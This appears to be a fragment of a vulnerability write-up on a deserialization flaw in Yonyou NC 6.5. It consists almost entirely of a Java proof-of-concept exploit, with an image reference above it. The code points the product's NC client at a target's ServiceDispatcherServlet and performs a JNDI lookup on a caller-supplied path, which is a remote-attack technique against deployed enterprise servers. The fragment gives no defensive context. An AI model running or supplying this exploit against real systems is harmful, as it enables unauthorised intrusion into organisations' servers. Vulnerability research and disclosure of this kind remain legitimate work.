![mov.gif](./resource/用友nc6.5反序列化漏洞/media/rId44.gif)

> explpit.java

    import nc.bs.framework.common.NCLocator;

    import java.util.Properties;

    public class poc {

        public static void attack(String url, String jndipath) {
            Properties env = new Properties();
            if (!url.startsWith("http")) {
                url = "http://" + url;
            }
            env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
            NCLocator locator = NCLocator.getInstance(env);
            locator.lookup(jndipath);
        }
